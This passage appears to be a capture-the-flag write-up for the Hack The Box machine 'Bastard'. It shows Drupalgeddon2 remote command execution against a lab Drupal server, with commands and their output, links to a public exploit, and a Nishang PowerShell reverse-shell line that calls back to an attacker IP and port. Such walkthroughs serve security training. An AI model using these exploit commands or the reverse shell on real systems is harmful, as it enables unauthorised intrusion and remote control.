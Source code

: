 ```
19/03/2017  01:42 ��             5.969 .htaccess
19/03/2017  01:42 ��             6.604 authorize.php
19/03/2017  01:42 ��           110.781 CHANGELOG.txt

type  \users\dimitris\Desktop\user.txt
XXXXXXXXXXXXXXXXXXXXXXX
```
## We are in a 32bit cmd.exe
```
WMIC OS get osarchitecture
OSArchitecture  
64-bit          

drupalgeddon2>> echo %PROCESSOR_ARCHITEW6432%
AMD64  => 32 bit
drupalgeddon2>> C:\Windows\sysnative\cmd.exe
No response, loose stdin...
```

## Try with another exploit

```
https://github.com/lorddemon/drupalgeddon2/blob/master/drupalgeddon2.py
```

```
# ./drupalgedon2.py -h http://10.10.10.9/ -c 'whoami'
nt authority\iusr

root@kali:~/htb/YoloToolbox/machines/htb/bastard# ./drupalgedon2.py -h http://10.10.10.9 -c 'ls -la /'

root@kali:~/htb/YoloToolbox/machines/htb/bastard# ./drupalgedon2.py -h http://10.10.10.9 -c 'WMIC OS get osarchitecture'
OSArchitecture  
64-bit          


root@kali:~/htb/YoloToolbox/machines/htb/bastard# ./drupalgedon2.py -h http://10.10.10.9 -c 'echo %PROCESSOR_ARCHITEW6432%'
AMD64

```

## Another User shell with Nishang

Nishang Powershell - Invoke-PowerShellTcp.ps1
- https://github.com/samratashok/nishang
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

Update the last line with IP/port
```
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.32 -Port 4443
```
